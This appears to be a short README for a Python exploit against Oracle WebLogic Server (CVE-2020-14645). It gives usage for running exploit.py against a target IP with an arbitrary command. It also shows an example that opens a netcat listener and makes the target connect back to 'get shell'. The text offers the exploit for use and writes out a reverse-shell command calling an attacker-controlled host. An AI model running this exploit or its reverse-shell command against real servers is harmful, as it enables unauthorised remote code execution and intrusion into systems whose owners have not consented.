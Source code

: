 # CVE-2020-14645
Weblogic Server CVE-2020-14645 EXP for Python （complete in one step）


#### Useage: Python3 exploit.py -t \<tartget IP\> -c \<command\>
##### tips: No echo

##### Example：

nc -lvnp 4444


Python3 exploit.py -t 192.168.0.14 -c 'nc 192.168.0.15 4444'

then you will getshell
